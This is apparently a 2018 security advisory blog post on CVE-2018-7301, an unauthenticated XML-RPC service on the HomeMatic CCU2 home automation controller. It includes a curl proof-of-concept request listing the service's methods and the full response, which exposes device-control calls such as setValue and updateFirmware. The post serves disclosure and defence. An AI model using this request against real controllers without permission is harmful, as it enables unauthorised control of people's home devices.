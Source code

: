 ```yaml
---
layout: post
title: "CVE-2018-7301: Unauthenticated XML-RPC Service in HomeMatic CCU2"
date:   2018-02-21 13:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Background

HomeMatic is a home automation system consisting of various components for automating several parts of a building, including different sensors and actuators. The HomeMatic CCU2 is a central control unit, which is responsible for integrating these components with each other.

From the vendor's website ([eQ-3](http://www.eq-3.de/produkte/homematic/zentralen-und-gateways.html)):

"The Homematic Central Control Unit CCU2 is responsible for numerous control, signalling and supervision functions across all areas of the Homematic system. The device includes a browser based user interface to the up the system. It can be controlled in the local network as well as via Internet. The Homematic software offers various configuration and application possibilities, so that there are no limits to creativity for installing your individual smart home."

# Issue Description

While analyzing the available ports of the CCU2, an open XML-RPC port without authentication has been identified. This can be exploited by sending arbitrary XML-RPC request to control the attached bidcos-devices.

The following request illustrates the problem:

```
curl -v -H "Content-Type:text/xml" -d "<?xml version="1.0"?><methodCall>
<methodName>system.listMethods</methodName><params/></methodCall>"
http://192.168.2.145:2001
```

The following response shows that the system successfully processed the unauthenticated request:

~~~
HTTP/1.1 200 OK
Server: XMLRPC++ 0.7
Content-Type: text/xml
Content-length: 1736

<?xml version="1.0"?>
<methodResponse>
  <params>
    <param>
      <value>
        <array>
          <data>
            <value>abortDeleteDevice</value>
            <value>activateLinkParamset</value>
            <value>addDevice</value>
            <value>addLink</value>
            <value>addVirtualDeviceInstance</value>
            <value>changeKey</value>
            <value>clearConfigCache</value>
            <value>deleteDevice</value>
            <value>deleteVolatileMetadata</value>
            <value>determineParameter</value>
            <value>exit</value>
            <value>getAllMetadata</value>
            <value>getDeviceDescription</value>
            <value>getInstallMode</value>
            <value>getKeyMismatchDevice</value>
            <value>getLinkInfo</value>
            <value>getLinkPeers</value>
            <value>getLinks</value>
            <value>getMetadata</value>
            <value>getParamset</value>
            <value>getParamsetDescription</value>
            <value>getParamsetId</value>
            <value>getServiceMessages</value>
            <value>getValue</value>
            <value>getVersion</value>
            <value>getVolatileMetadata</value>
            <value>hasVolatileMetadata</value>
            <value>init</value>
            <value>listBidcosInterfaces</value>
            <value>listDevices</value>
            <value>listReplaceableDevices</value>
            <value>listTeams</value>
            <value>logLevel</value>
            <value>ping</value>
            <value>putParamset</value>
            <value>refreshDeployedDeviceFirmwareList</value>
            <value>removeLink</value>
            <value>replaceDevice</value>
            <value>reportValueUsage</value>
            <value>restoreConfigToDevice</value>
            <value>rssiInfo</value>
            <value>setBidcosInterface</value>
            <value>setInstallMode</value>
            <value>setInterfaceClock</value>
            <value>setLinkInfo</value>
            <value>setMetadata</value>
            <value>setRFLGWInfoLED</value>
            <value>setTeam</value>
            <value>setTempKey</value>
            <value>setValue</value>
            <value>setVolatileMetadata</value>
            <value>system.listMethods</value>
            <value>system.methodHelp</value>
            <value>updateFirmware</value>
            <value>system.multicall</value>
          </data>
        </array>
      </value>
    </param>
  </params>
</methodResponse>
~~~~

# CVE

[CVE-2018-7301](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7301)

# Credit

Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Gregor Kopf of [Secfault Security GmbH](https://secfault-security.com)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2017 Secfault Security GmbH & SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
